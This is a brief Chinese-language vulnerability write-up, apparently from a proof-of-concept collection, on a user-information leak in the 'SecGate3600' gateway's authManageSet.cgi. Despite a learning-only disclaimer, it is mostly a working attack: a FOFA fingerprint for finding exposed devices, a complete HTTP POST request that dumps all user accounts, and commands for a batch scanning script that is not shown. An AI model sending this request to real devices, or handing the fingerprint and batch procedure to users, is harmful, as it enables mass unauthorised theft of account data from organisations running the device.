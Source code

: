 # 某神SecGate3600 authManageSet.cgi信息泄露漏洞

免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与作者无关。该文章仅供学习用途使用！！！

fofa语法

```
body="sec_gate_image/login_02.gif"fid="ldb0WVBlAgZloMw9AAge0A=="
```

POC:

```
POST /cgi-bin/authUser/authManageSet.cgi HTTP/1.1Host: your-ipContent-Type: application/x-www-form-urlencodedUser-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36Accept: */*Accept-Encoding: gzip, deflateConnection: close type=getAllUsers&_search=false&nd=1645000391264&rows=-1&page=1&sidx=&sord=asc
```





批量poc(记得安装库)

python poc.py -u 



python poc.py -f  .txt

